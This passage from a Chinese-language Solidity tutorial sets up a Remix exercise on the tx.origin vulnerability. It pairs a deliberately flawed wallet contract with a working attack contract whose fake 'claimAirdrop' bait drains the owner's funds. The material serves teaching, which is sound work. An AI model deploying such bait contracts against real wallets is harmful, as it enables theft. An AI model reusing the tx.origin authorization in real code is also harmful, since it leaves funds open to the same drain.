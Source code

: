 
## 7. 实战演练

### 7.1 Remix 练习：tx.origin 攻击

#### 文件 1: `VulnerableWallet.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract VulnerableWallet {
    address public owner;
    
    constructor() payable {
        owner = msg.sender;
    }
    
    // ❌ 使用 tx.origin
    function withdraw(address payable to, uint256 amount) public {
        require(tx.origin == owner, "Not owner");
        to.transfer(amount);
    }
    
    function deposit() public payable {}
    
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

#### 文件 2: `AttackWallet.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IVulnerableWallet {
    function withdraw(address payable to, uint256 amount) external;
}

contract AttackWallet {
    IVulnerableWallet public wallet;
    address payable public attacker;
    
    constructor(address _walletAddress) {
        wallet = IVulnerableWallet(_walletAddress);
        attacker = payable(msg.sender);
    }
    
    // 🎣 诱饵函数（伪装成空投）
    function claimAirdrop() public {
        // 当 owner 调用此函数时，盗取钱包的资金
        wallet.withdraw(attacker, address(wallet).balance);
    }
    
    function getAttackerBalance() public view returns (uint256) {
        return attacker.balance;
    }
}
```
